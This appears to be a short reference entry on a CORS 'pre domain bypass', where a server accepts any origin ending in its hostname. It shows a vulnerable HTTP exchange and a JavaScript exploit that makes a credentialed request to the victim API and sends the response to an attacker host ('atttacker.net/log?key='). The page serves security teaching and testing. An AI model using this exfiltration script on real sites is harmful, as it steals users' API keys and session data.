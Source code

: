 # Pre Domain Bypass

## Description 
Host allows requests from hostnames that has the host as a prefix. 

**Severity**: High

## Exploit
`example.com` trusts `evilexample.com`, which is an attacker's domain.

### Example
In this scenario any prefix inserted in front of `example.com` will be accepted by the server.  

**Vulnerable Implementation**

```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-implementation-example-1)
